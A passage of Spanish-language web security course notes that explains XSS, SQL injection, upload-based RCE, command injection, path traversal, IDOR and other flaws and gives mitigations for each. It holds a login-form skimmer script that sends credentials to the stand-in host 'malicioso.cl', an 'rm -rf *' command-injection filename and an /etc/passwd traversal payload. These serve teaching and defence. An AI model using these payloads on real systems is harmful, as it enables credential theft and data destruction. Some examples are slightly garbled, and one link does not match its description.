Luego, cuando cualquier usuario vea el home con las últimas publicaciones, y mientras la publicación anterior esté ahí, verá un pop-up tras otro:




> [!COMMENT]
> Suena molesto, pero tampoco suena como algo tan terrible, ¿o sí?

Es terrible, porque en algunos casos podríamos hacer esto también.

```html
<script>
   // Conseguimos los campos de usuario, contraseña y el
   // formulario de inicio de sesión
   let usernameField = document.querySelector("#username")
   let passwordField = document.querySelector("#password")
   let form = document.querySelector("#login-form")
   form.onsubmit = () => {
       // Guardamos los datos en un diccionario de Javascript
       data = {
           "username": usernameField.value,
           "password": passwordField.value
       }
       // Enviamos los datos vía llamada asíncrona a un servidor controlado por el atacante
       fetch('https://malicioso.cl/credenciales_foro', {
               method: "POST",
               mode: "CORS",
               headers: {
                   "Content-Type": "application/json"
               },
               body: JSON.stringify(data)
           })
       .then(response => console.log(response.json()));
   }
</script>
```

Este código permitiría a un atacante **robarse los valores de los campos usuario y contraseña**, antes de ser enviados al servidor para validar el usuario. 

> [!TIP]
> ¿Sirve de algo la configuración de CORS en el sitio víctima? ¿Y la configuración de cookies? ¿Hay algo más que podamos configurar y que ya hayamos visto en el curso para evitar el impacto de este tipo de errores?

Ahora mencionaremos algunas clasificaciones de XSS:

* **XSS reflejado versus almacenado**: Es _reflejado_ cuando el XSS se ve solamente en la respuesta de una request que explota la vulnerabilidad. En este caso, el atacante debe lograr que el usuario víctima acceda a un enlace con el XSS como _query_ para que este funcione. Es _almacenado_ cuando queda guardado en una estructura de datos persistente del sitio, de modo que una vez que el atacante lo ejecuta, no es necesario volver a explotar la vulnerabilidad para mostrarlo.
* **XSS en el cliente versus en servidor**: Se considera _en el cliente_ cuando es usado por una función en JavaScript, la cual modifica el DOM de forma insegura, lo que genera que se ejecute el código. Se considera _en el servidor_ cuando un proceso de SSR es el que inyecta el código malicioso en el sitio web.
* **XSS público versus restringido versus Auto-XSS**: Se considera _público_ cuando cualquier visitante del sitio es afectable visitando la URL con el XSS. Se considera _restringido_ cuando solo algunos usuarios (los registrados, los de cierto grupo) pueden visitarlo. Se considera _auto-XSS_ (y en general se descarta como vulnerabilidad de impacto importante) cuando solo el mismo usuario que generó el XSS puede verlo (por ejemplo, si queda en un campo de datos que solo él o ella puede ver, aunque incluso en estos casos, a veces el XSS podría afectar a administradores/as del sistema).

> [!TIP]
> ¿Qué impacto puede tener un XSS visible por una administradora de una aplicación web? Define paso a paso qué harías como atacante para llegar a una situación así en una aplicación con un XSS de tipo almacenado, visible solo por ti y por administradores, en una página web con un formulario de inicio de sesión.

Para evitar este tipo de impactos, se recomienda sanitizar las entradas **en el servidor** (ya hablaremos por qué no puede ser solo en el cliente) y _escapar_ las salidas para que no contengan tags HTML o scripts (muchos framework lo hacen así por defecto, dificultando la materialización de esta vulnerabilidad).

### WebAssembly

[WebAssembly](https://webassembly.org/) Es una máquina virtual basada en pilas que puede ejecutar código especialmente compilado para ella. Se parece mucho al lenguaje _assembly_ que usan los procesadores y puede ser compilado a partir de lenguajes como C, C++, Go y Rust.

La mayor ventaja es que los programas WebAssembly se ejecutan a una velocidad casi nativa, lo que es una mejora sustancial a la velocidad de ejecución del código JavaScript (que es cada vez mejor gracias a mejoras en los _engine_ de los navegadores, pero estas mejoras siempre estarán limitadas por restricciones del diseño de JS).

Existe una representación en texto de WebAssembly llamada [WAT](https://developer.mozilla.org/en-US/docs/WebAssembly/Guides/Understanding_the_text_format), que se parece mucho a lenguajes de programación tipo Scheme/Lisp, ya que usa _S-expressions_.

En esta versión del curso no veremos mucho de WebAssembly, pero vale la pena mencionar que no solo sirve para obtener código más eficiente, ya que es usado también para hacerlo menos legible tanto por [atacantes](https://www.crowdstrike.com/en-us/blog/ecriminals-increasingly-use-webassembly-to-hide-malware/) como por usuarios legítimos ([en sistemas antibot, por ejemplo](https://anubis.techaro.lol/blog/2026/anubis-wasm/)).

## Bases de Datos

Un mecanismo de persistencia común en aplicaciones web es la base de datos. Esta puede ser relacional (como Postgres y MySQL) o no relacional (como Mongo), pero en ambos casos suele ser consultada usando un lenguaje específico para ella (SQL en bases de datos relacionales, MQL en Mongo).

Cuando las consultas a la base de datos dependen de parámetros específicos de la consulta HTTP, lo más lógico es querer generar consultas de base de datos que combinen estos parámetros con una consulta tipo:

```php
$query = "SELECT * FROM users WHERE username = \""  . $_GET['usuario'] ."\" AND password = \"" . get_hash($_GET['password']) . "\";" // En PHP, el . se usa para concatenar cadenas de texto
$result = mysqli_execute_query($conn, $query); // Ejecuto la consulta con una conexión previamente establecida

```

> [!TIP]
> ¿Qué podría salir mal?

### 🐞 Inyecciones SQL

El ejemplo anterior podría salir mal si un usuario ingresa en el parámetro `usuario` el valor `\" or 1;  -- ` (y cualquier valor como contraseña), ya que la consulta final quedará de la siguiente forma (todo lo que va después del `-- ` es interpretado como un comentario):

```sql
SELECT * FROM users WHERE username = ""; or 1; -- " AND password = "loquesea"; (
```

A esto se le llama **inyección SQL** y ocurre por una razón similar a la vista en vulnerabilidades de bajo nivel: **un límite difuso entre datos e instrucciones**.

[XKCD Obligatorio](https://xkcd.com/327/):



Este problema se mitiga usando _Prepared Statements_ (Consultas preparadas), una API en toda librería de base de datos (relacional o no relacional) que usa comodines en las consultas, los que son reemplazados por el dato ingresado por el usuario después de _parsear_ su estructura:

```php
$stmt = $mysqli->prepare("SELECT * FROM users WHERE username = ? AND password = ?;");
$stmt->bind_param("ss", $id, $label); // El primer parámetro define cómo se asocian las variables comodín. En este caso, ss significa que ambas son string.
$stmt->execute();
```

Este problema es muy difícil de gatillar si el equipo de desarrollo usa una abstracción como Modelos Objeto-Relación (ORMs) para relacionarse con las bases de datos de sus sistemas, por lo que también es recomendado usarlas para evitar caer en estas situaciones de riesgo.

## Almacenamiento de archivos

Además de datos, muchas aplicaciones web necesitan recibir archivos de sus usuarios para funcionar. Para hacer esto, los archivos suelen ser enviados en una request de tipo POST, en el _body_ de la misma.

Los archivos luego pueden ser copiados a carpetas específicas, o a rutas públicas para luego ser referidos en páginas web personalizadas (como una foto de perfil en un foro)

### 🐞 Subida de archivos no permitidos 

Un atacante podría subir un archivo muy pesado y generar una afectación de disponibilidad en una aplicación (o una factura muy grande en S3 si se usa infraestructura en nube). Para evitar esto, muchos framework permiten definir un tamaño máximo de archivo, el cual es validado antes de ser recibido y copiado en el sistema de archivos.

También un atacante podría subir archivos de formatos distintos a los que espera el proveedor del servicio. Para evitar esto, el equipo de desarrollo puede validar la extensión, pero esto muchas veces no es suficiente, ya que el atacante puede intentar subir el archivo con una extensión distinta a la original, lo que dificultará su visualización inmediata pero igual le permitirá usar los recursos del servidor víctima. Los desarrolladores y desarrolladoras también pueden validar el _tipo MIME_ del archivo, revisando los primeros bytes de éste (_magic bytes_ o _file signatures_) y comprobando que correspondan a lo esperado. En [este sitio](https://www.garykessler.net/library/file_sigs_GCK_latest.html) hay algunos ejemplos de _magic bytes_.

La recomendación en general es no asumir que es posible limitar los tipos de archivos que puede subir un atacante, para lo cual puede convenir limitar el tamaño de estos para hacerle menos útil al atacante la subida de contenido no deseado.

### 🐞 Archivos enumerables

En algunas aplicaciones web, los archivos son copiados a rutas estáticas para que luego un servidor web estático pueda entregarlos a todos quienes conozcan sus rutas.

Si los archivos son copiados con nombres incrementables o fácilmente adivinables, nada evitará que un atacante logre descargar los de otros usuarios de forma programática, ya que el servidor web estático no tendrá como revisar si existen o no los accesos correspondientes.

Una forma de mitigar este problema es agregando nombres aleatorios y largos a los archivos estáticos, dificultando su enumeración. 

Otras formas dependen de los servidores web estáticos. En el caso de NGINX, es posible realizar [_subrequests_](https://docs.nginx.com/nginx/admin-guide/security-controls/configuring-subrequest-authentication/) que validan que el usuario esté autenticado antes de entregar el archivo. También es posible usar una [cabecera especial](https://github.com/nginxinc/nginx-wiki/blob/master/source/start/topics/examples/x-accel.rst) denominada `X-Accel-Redirect`, que es interceptada por NGINX si es devuelta por el servidor e intercambiada por un archivo específico, otorgando los beneficios de ser servidos estáticamente con una validación previa de permisos hecha por el backend.

### 🐞 Exposición de buckets

En el caso del storage en aplicaciones que usan servicios de Nube, estas pueden conectarse a una API de tipo S3 (Static Storage Service de Amazon o equivalentes en otros proveedores), la que le permite subir, descargar y actualizar archivos estáticos a un almacenamiento externo. El acceso a estos archivos se puede otorgar luego programáticamente desde el backend de la aplicación web, usando tokens con tiempo limitado.

Sin embargo, si el _bucket_ (o _namespace_ de un conjunto de archivos almacenados en S3) no tiene configurados correctamente los permisos de lectura o listado de archivos, **cualquier persona que conozca el nombre del bucket (básicamente, cualquier persona que tenga al menos un enlace de un archivo dentro del bucket) podrá listar y/o descargar todos los archivos subidos a él. E

La mitigación a este problema es configurar de forma correcta los permisos del bucket en el admin del proveedor de nube, **restringiendo el listado de los archivos** y, si no es necesario que existan enlaces públicos y permanentes a ellos, también limitando su lectura sin credenciales generadas por el backend de la aplicación. AWS provee de [esta guía](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-control-block-public-access.html) a sus usuarios para hacerlo.

Existen muchos reportes de actores de amenaza buscando activamente _buckets_ públicos en distintas nubes conocidas (AWS, Azure, Google, DigitalOcean, etc), los cuales les permiten obtener archivos sensibles de usuarios, respaldos, y en algunos casos incluso credenciales.

### 🐞 Ejecución Remota de Código con archivos subidos

Supongamos que la ruta `https://hackerlab.cl/subir-archivo.php` recibe archivos y los coloca en una carpeta `/upload/`, accesible públicamente en `https://hackerlab.cl/upload/`.

Supongamos también que el servidor web está configurado de la siguiente forma:

```nginx
location ~ \.php { // Si el archivo contiene .php
    try_files $uri =404;
    include snippets/fastcgi-php.conf;
    fastcgi_pass unix:/var/run/php5-fpm.sock; // se intenta ejecutar como un archivo PHP
    include fastcgi_params;
}
```

El equipo de desarrollo, para evitar que las personas suban archivos `.php`, revisa en el código que el nombre del archivo no termine en `.php`:


```php
...
if (is_uploaded_file($_FILES['archivo']['tmp_name'])) {
   if (str_ends_with($_FILES['archivo']['name'], ".php")) {
        echo "Posible subida de archivo malicioso\n";
        die();
   }
   $uploads_dir = '/upload';
    foreach ($_FILES["archivo"]["error"] as $key => $error) {
        if ($error == UPLOAD_ERR_OK) {
            $tmp_name = $_FILES["archivo"]["tmp_name"][$key];
            $name = basename($_FILES["archivo"]["name"][$key]); // Para evitar ataques de tipo path traversal
            move_uploaded_file($tmp_name, "$uploads_dir/$name");
        }
    }
}
?>
...
```

Como la regla de NGINX está mal configurada, un archivo de nombre `hola.php.xyz` será interpretado como código ejecutable, lo que permitirá a un atacante ejecutar cualquier tipo de código. A la posibilidad de ejecutar código en una aplicación en otro servidor se le denomina _RCE_ o _Remote Code Execution_, y en este caso estaría habilitada por la subida de un archivo que el servidor interpreta como ejecutable.

La mitigación a este tipo de problemas es limitar explícitamente en qué carpetas pueden ubicarse archivos ejecutables, y evitar que el proceso que sube archivos pueda escribir en esas carpetas (por ejemplo, abusando una vulnerabilidad de tipo _path traversal_).

Los atacantes suelen subir [_webshells_](https://www.cisa.gov/news-events/alerts/2015/11/10/compromised-web-servers-and-web-shells-threat-awareness-and-guidance) a servidores con esta vulnerabilidad, para facilitarles la exploración y descarga posterior de archivos, configuraciones y secretos.

## Otras vulnerabilidades y debilidades

A continuación se describen brevemente otras vulnerabilidades típicas de aplicaciones web.

### 🐞 Otros tipos de ejecución remota de código 

Una ejecución remota de código también puede darse a partir de código que recibe datos del usuario y los usa dentro de una llamada al sistema que ejecuta comandos internos. Por ejemplo:
 

```php
...
<?php
$file=$_GET['filename'];
system("touch $file");
?>
...
```

> [!TIP]
> ¿Qué pasa si un atacante sube un archivo de nombre `archivo.txt; rm -rf *` ?

El comando final sería:

```php
system("touch archivo.txt; rm -rf *"); // crearía el archivo.txt pero luego borraría todos los archivos en la carpeta.
``` 

Lo indicado en el tip anterior muestra una situación muy parecida a las inyecciones SQL. Las razones son las mismas (no se separa claramente el dato del comando), y las mitigaciones similares: usar APIs de alto nivel en los frameworks o lenguajes de programación, las cuales sanean este tipo de problemas.

Los atacantes pueden usar vulnerabilidades de ejecución remota de código para obtener acceso de consola con `reverse shells`. [Este sitio](https://www.revshells.com/) muestra como generar payloads de reverse shells para distintos lenguajes de programación y sistemas operativos en los cuales pueda ejecutarse código de forma remota.

### 🐞 _Path traversal_ e inclusión de archivos local o remota

Dentro de la familia de las inyecciones, si el campo a inyectar corresponde a una ruta interna en el sistema, muchas veces es posible concatenar rutas _especiales_ que permiten moverse _hacia arriba_ en el árbol de archivos.

Supongamos que la ruta `hackerlab.cl?ver_pagina=index.php` carga la página de la siguiente forma:

```php
$base = '/var/www/html/';
$archivo = $base . $_GET['ver_pagina']; // Concatenamos la base
readfile($archivo);
```

> [!TIP]
> ¿Qué pasa si un atacante visita `https://hackerlab.cl/?ver_pagina=../../../../../etc/passwd` ?

El archivo que se leerá será `/var/www/html/../../../../../../../../../`

Supongamos ahora que se aplica el siguiente parche a la función anterior

```php
$base = '/var/www/html/';
$archivo = $base . $_GET['ver_pagina']; // Concatenamos la base
$archivo = preg_replace('../', '', $archivo); // Reemplazamos todas las apariciones de ../ por una cadena vacía
readfile($archivo);
```

> [!TIP]
> Lo anterior no es suficiente para evitar un ataque de tipo _path traversal_. Propón un payload que se salte la mitigación.

En ambos casos, con el payload indicado, la página mostrará el archivo `/etc/passwd` (si los permisos del usuario del servidor web lo permiten, claro).

Cuando el archivo cargado está en el mismo servidor atacado, el efecto de _path traversal_ se denomina _local file inclusion_ o LFI. Si es posible consultar archivos de otros servidores (peor aún, de otros servidores en la **red interna** a la que pertenece el servidor víctima), el efecto se denomina _remote file inclusion_ o RFI.

La mitigación a este problema es una verificación permanente de que los archivos revisados estén dentro de cierto _scope_, usar valores predefinidos y limitados a una _allowlist_ en vez de rutas específicas, o usar _chroot_ en servidores linux.

Puedes leer más sobre esta vulnerabilidad en [OWASP](https://community.owasp.org/attacks/Path_Traversal).


### 🐞 _Server-Side Template Injection_ (SSTI)

Otro caso particular de inyecciones en el que el contenido ingresado por el atacante puede ser interpretado como una plantilla interpolable. Se parece mucho a las vulnerabilidades de _format string_ vistas en bajo nivel, pero dirigidas a frameworks de _templating_ como [_Jinja_](https://jinja.palletsprojects.com/en/stable/) y [_EJS_](https://ejs.co/).

### 🐞 _Insecure Direct Object References_ (IDORs)

Esto es similar a la enumeración de archivos mencionada más arriba, pero en aplicaciones web dinámicas.

Si una aplicación no valida los permisos de los recursos a los cuales acceden los usuarios (más allá de la autenticación, estamos hablando de _autorización_: que un usuario tenga la capacidad de acceder o modificar un recurso específico), y las URL de los recursos son predecibles (incrementales o siguen un patrón adivinable), un atacante podría enumerar todos los posibles recursos disponibles 

Por ejemplo, si en la ruta de la aplicación `hackerlab.cl/tickets/12345` un usuario puede ver datos sensibles de un ticket generado por él o ella, éste podría intentar con las rutas `hackerlab.cl/tickets/12344` y `hackerlab.cl/tickets/12346` y ver los mismos datos de otras solicitudes (que podrían ser de otras personas).

La mejor mitigación es asegurarse de revisar los permisos de acceso a los distintos recursos de forma general y continua en cualquier llamada de código que los consulte. Sin embargo, una mitigación razonable en algunos contextos (en especial si es necesario que las rutas sean públicas para usuarios invitados) es definir IDs completamente aleatorios en espacios muy grandes (como los [UUIDs](https://www.rfc-editor.org/info/rfc9562/) definidos en el RFC 9562).

### 🐞 Validaciones solo en el código de cliente

Si solo el front de una aplicación web revisara que un campo de texto no contuviese algún código de inyección. Un atacante **puede modificar el contenido del front para que esta validación no se realizase**.

Por lo anterior, todas las validaciones de seguridad de una aplicación web **deben** hacerse en el servidor (donde el atacante no puede modificar el comportamiento sin encontrar una vulnerabilidad importante). Es importante recordar que hacerlas en el cliente es una funcionalidad que **solamente mejora la usabilidad de la aplicación y no entrega seguridad**.

### 🐞 Ataques de Cadena de suministro

Como ya vimos anteriormente, las dependencias de una aplicación web pueden ser vulneradas por actores de amenaza, lo que les permitiría acceder a la infraestructura del software que depende críticamente del vulnerado.

Algo así pasó hace muy poco, con la aplicación web LiteLLM, la cual fue vulnerada por actores de amenaza que vulneraron previamente una dependencia de CI de ella (_Trivy_, un sistema para validar si los contenedores de Docker de una aplicación están actualizados). El grupo de amenazas **TeamPCP** ingresó primero a la infraestructura de _Trivy_ y con ello logró obtener las variables del entorno de CI/CD de _LiteLLM_, generando dos versiones maliciosas que estuvieron disponibles en el gestor de paquetes _PyPi_ por varias horas. [En este enlace](https://jinja.palletsprojects.com/en/stable/) pueden ver las organizaciones que terminaron afectadas por este ataque.

Veremos esto con más detalle en _Seguridad de Software_.

### 🐞 Malvertising

Dentro del contenido inyectable en sitios web no controlado completamente por el desarrollador están los _ads_ de proveedores externos. 

Las plataformas de publicidad en Internet venden en tiempo real todos los espacios disponibles en los sitios que las utilizan, lo que permite a casi cualquiera comprarlos (en el caso de actores de amenaza, casi seguramente con tarjetas de crédito robadas) y mostrar contenido arbitrario en estos sitios.

Si bien este contenido no es malicioso solo por ser observado, sí podría mostrar información que engañe al usuario, quien puede no darse cuenta que el contenido corresponde a publicidad y no a un mensaje incrustado directamente y conscientemente por el equipo que mantiene el sitio.

[Existe evidencia de incidentes de ciberseguridad en Chile](https://csirt.gob.cl/alertas/cnd24-00132/) ocasionados inicialmente porque un actor de amenaza logró mostrar publicidad maliciosa a sus víctimas, la que los invitaba a instalar una extensión o programa particular que contenía código malicioso.

La mitigación para los equipos de desarrollo es, cuando sea posible, evitar incrustar publicidad de fuentes no reconocidas por el administrador de la página. Para los usuarios, la mejor mitigación para evitar ser afectado es usar herramientas de bloqueo de publicidad. 

> [!COMMENT]
> Esta medida puede sonar polémica desde el punto de vista de financiamiento de los sitios, pero es una recomendación activa de agencias estatales como [el FBI en Estados Unidos](https://www.ic3.gov/PSA/2022/PSA221221).

### 🐞 Exposición insegura de infraestructura

Otra debilidad común en despliegues de aplicaciones web tiene que ver con la exposición de servicios usados por aplicaciones web que no deben estar expuestos. En algunos casos, quienes mantienen las aplicaciones exponen las bases de datos a Internet, permitiendo a cualquier persona (intentar) conectarse a ellas solo conociendo su IP. 

Es súper común que muchos actores de amenaza estén buscando activamente servicios expuestos a Internet con credenciales por defecto o desactualizados y con vulnerabilidades fácilmente explotables. Esto les permite acceder de forma automática y ejecutar código remotamente o borrar los datos y pedir dinero para su rescate (Ransomware).

[Este](https://www.imperva.com/blog/postgresql-database-ransomware-analysis/) es un ejemplo de ransomware automático que suele afectar a bases de datos postgres con credenciales por defecto.

Problemas de exfiltración, secuestro o eliminación de datos también se han visto ocurrir con [MongoDB](https://www.bleepingcomputer.com/news/security/exposed-mongodb-instances-still-targeted-in-data-extortion-attacks/), [ElasticSearch](https://www.zdnet.com/article/voter-records-for-80-of-chiles-population-left-exposed-online/), [Redis](https://www.wiz.io/blog/wiz-research-redis-rce-cve-2025-49844) (en este caso por una vulnerabilidad tipo _RCE_ sin autenticación), entre otros.

### 🐞 Bonus: GraphQL mal protegido

Esta vulnerabilidad está un poco relacionada con exposición insegura de infraestructura e inyección de comandos, pero tiene más que ver con un problema de configuración y de permisos debido a una mala comprensión de la tecnología subyacente.

[GraphQL](https://graphql.org/) es un lenguaje de consulta y una implementación de servidor muy popular hace casi una década, que permitía a desarrolladores hacer consultas en un lenguaje parecido a SQL directo hacia una API en una aplicación de tipo SPA. Esto hace muy fácil el desarrollo de un backend solo conectando una librería GraphQL a un conjunto de modelos y bases de datos correspondientes.

El problema es que GraphQL es sumamente expresivo. Es casi como si la API fueran solo consultas SQL al servidor, y no muchas veces se configuran de forma correcta los permisos para leer o escribir datos. Esto permite a un atacante consultar registros de otros usuarios, ya sea quitando filtros a la consulta (por ejemplo, el filtro que determina el ID del usuario owner de los recursos) o accediendo a recursos en la base de datos que el _frontend_ no usa directamente pero que GraphQL igual disponibiliza.

La mitigación en este caso es configurar de forma correcta los permisos de GraphQL, permitiendo la realización de solo las acciones mínimas necesarias (con los campos mínimos necesarios) a solo los usuarios autorizados para ello.

## Mitigaciones generales

A continuación se menciona un resumen de las mitigaciones ya descritas, las cuales de ser consideradas en su conjunto disminuyen de manera importante el riesgo de sufrir las vulnerabilidades revisadas en el curso.

* **Usar ORMs y funciones de frameworks reconocidas y actualizadas**: Para evitar ataques de inyección de código.
* **Sanitizar entradas en el backend y en el frontend**: para dificultar la inyección de código o templates.
* **Usar WAF de confianza**: para detectar payloads de algunas de las vulnerabilidades mencionadas y bloquearlos antes de que sean aceptados por las aplicaciones potencialmente vulnerables.
* **Usar _prepared statements_ al trabajar con bases de datos y APIs de alto nivel al ejecutar acciones de sistema operativo**: Nunca concatenar instrucciones con datos ingresados por usuarios sin una validación previa, ojalá realizada por una librería profesional.
* **No exponer infraestructura que no necesita ser expuesta**: Para evitar el abuso de vulnerabilidades en sistemas no actualizados.
* **Usar bloqueadores de anuncios**: Para evitar como usuario ser víctima de campañas de _malvertising_.

> [!COMMENT]
> Al WAF de CloudFlare no le gusta que una request HTTP incluya el string `/etc/passwd` 🫢.

Recomendamos revisar continuamente recursos como [OWASP Top 10](https://owasp.org/projects/top-ten), que muestra las vulnerabilidades web más comunes y cómo parcharlas o evitarlas.